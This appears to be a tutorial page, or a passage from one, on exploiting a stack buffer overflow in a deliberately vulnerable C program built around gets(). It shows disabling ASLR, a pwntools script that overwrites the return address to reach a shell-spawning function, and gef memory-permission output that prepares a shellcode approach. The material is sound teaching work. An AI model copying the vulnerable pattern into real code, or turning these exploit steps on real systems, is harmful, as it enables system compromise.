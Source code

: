 # Exploitation

Let's take our previous program from the bof

{% file src="../../../../.gitbook/assets/buffer-overflow \(1\).zip" caption="buffer-overflow.zip" %}

With source code

```c
#include <stdio.h>
#include <stdlib.h>

void win() {
    system("/bin/sh");
}

int main() {
    char buf[64];
    puts("What are you going to say?");
    gets(buf);
    puts("Thank you, have a nice day!");
    return 0;
}
```

We're going to want to turn off ASLR for this one

```c
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space 
[sudo] password for tango: 
0
```

So originally, our plan of attack was

```python
from pwn import *

e = context.binary = ELF("./bof")
p = process(e.path)
libc = e.libc

payload = b"A"*72
payload += p64(e.symbols["win"])

p.sendline(payload)
p.interactive()
```

But now, let's change it up a bit. As the binary doesn't have NX enabled, we have some writable and executable pages. We can check this in gdb by using `vmmap in gef.`

```python
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- ./bof
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x ./bof
0x0000000000402000 0x0000000000403000 0x0000000000002000 r-- ./bof
0x0000000000403000 0x0000000000404000 0x0000000000002000 r-- ./bof
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- ./bof
0x0000000000405000 0x0000000000426000 0x0000000000000000 rw- [heap]
0x00007ffff7dd3000 0x00007ffff7dd5000 0x0000000000000000 rw- 
0x00007ffff7dd5000 0x00007ffff7dfb000 0x0000000000000000 r-- /usr/lib/libc-2.32.so
0x00007ffff7dfb000 0x00007ffff7f48000 0x0000000000026000 r-x /usr/lib/libc-2.32.so
0x00007ffff7f48000 0x00007ffff7f94000 0x0000000000173000 r-- /usr/lib/libc-2.32.so
0x00007ffff7f94000 0x00007ffff7f97000 0x00000000001be000 r-- /usr/lib/libc-2.32.so
```